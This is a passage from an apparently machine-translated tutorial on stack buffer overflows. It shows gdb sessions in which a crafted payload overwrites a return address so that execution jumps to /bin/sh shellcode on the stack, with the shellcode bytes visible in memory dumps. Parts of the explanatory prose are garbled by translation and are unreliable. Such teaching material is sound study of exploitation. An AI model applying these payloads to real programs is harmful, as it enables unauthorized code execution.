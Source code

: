 0xffffdfe8: 0x2b80cd0b  
(gdb)  
0xffffdfec: 0x1affffd3  
(gdb)  
0xffffdff0: 0x762f2e00  
(gdb)  
0xffffdff4: 0x006e6c75  
(gdb)  
0xffffdff8: 0x00000000  
(gdb)  
0xffffdffc: 0x00000000  
(gdb)  
0xffffe000: Cannot access memory at address 0xffffe000 // it’s the end of the world, of course (called _kernel land_)  
(gdb) x/s 0xffffdff0+1  
0xffffdff1: “./vuln”

We just after the `cd 80` (opcodes for `int 0x80`) end of our shellcode, a series of data, specifically see the following bytes (in hex, of course):`2b d3 ff ff 1a 00`, and then the string “. / vuln “. These data, given that this is little endian (friend), are one direction and the other half, namely `0xffffd32b` and `0x????001a` (the second, I guess it’s a direction as it must be in the stack function `print()`, and that there is no string containing `0x1a`, which is also not printable, then hopefully be the end of an address). These two addresses correspond to the stack of the exploit. Let this serve as an introduction to the memory leaks. Filtered by the type of address, the exploit was compiled as 32 bits, simply the custom led me to compile it with the `-m32` option, but we can see that the error occurs the same if it is compiled for 64 bits.

    $ gdb -q vuln
    Reading symbols from vuln...(no debugging symbols found)...done.
    (gdb) br *print +26
    Breakpoint 1 at 0x8048425
    (gdb) set exec-wrapper ./x
    (gdb) run
    Starting program: /home/arget/vuln 
    Using Address: [ 0xffffdfd8 ]
    Payload: 41414141414141414141414141414141414141414141d8dfffff

Breakpoint 1, 0x08048425 in print ()  
(gdb) display /i $pc  
1: x/i $pc  
\=> 0x8048425 <print+26>: ret  
(gdb) nexti  
0xffffdfd8 in ?? ()  
1: x/i $pc  
\=> 0xffffdfd8: jae 0xffffe042  
(gdb) x $eip  
0xffffdfd8: 0x2f686873  
(gdb)  
0xffffdfdc: 0x896e6962  
(gdb)  
0xffffdfe0: 0x895350e3  
(gdb)  
0xffffdfe4: 0xb0d231e1  
(gdb)  
0xffffdfe8: 0x4680cd0b  
(gdb)  
0xffffdfec: 0x55555555  
(gdb)  
0xffffdff0: 0x762f2e00  
(gdb)  
0xffffdff4: 0x006e6c75  
(gdb)  
0xffffdff8: 0x00000000  
(gdb)  
0xffffdffc: 0x00000000  